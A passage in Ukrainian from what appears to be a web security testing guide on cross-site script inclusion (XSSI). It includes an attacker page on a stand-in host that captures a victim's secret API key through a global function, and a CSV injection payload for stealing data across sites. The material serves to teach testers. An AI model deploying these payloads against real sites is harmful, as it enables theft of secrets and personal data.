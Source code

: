 Ось вміст ```https://victim.com/internal/api.js```:
```
(function() {
  var secret = "supersecretAPIkey";
  window.globalFunction(secret);
})();
```

Сайт атаки, ```attackingwebsite.com```, має ```index.html``` із таким кодом:
```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global function parameters</title>
  </head>
  <body>
    <div id="result">
    </div>
    <script>
      function globalFunction(param) {
        var div = document.getElementById("result");
        div.innerHTML = "Your secret data: <b>" + param + "</b>";
      }
    </script>
    <script src="https://victim.com/internal/api.js"></script>
  </body>
</html>
```

Існують інші вразливості XSSI, які можуть призвести до витоку конфіденційних даних через ланцюжки прототипів JavaScript або глобальні виклики функцій. Щоб дізнатися більше про ці атаки, перегляньте розділ Несподівані небезпеки динамічного JavaScript.

### 3. Витік конфіденційних даних через CSV із крадіжкою котирувань
Для витоку даних зловмисник/тестер повинен мати можливість вставити код JavaScript у дані CSV. Наведений нижче приклад коду є уривком із документації про атаки XSSI на основі ідентифікатора Такеші Теради.
```
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: xxxx
1,"___","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"___","zzz@example.com","03-0000-0099"
```

У цьому прикладі використання стовпців ```___``` як точок ін’єкції та вставлення рядків JavaScript на їх місце має такий результат.
```
1,"\"",$$$=function(){/*","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"*/}//","zzz@example.com","03-0000-0099"
```
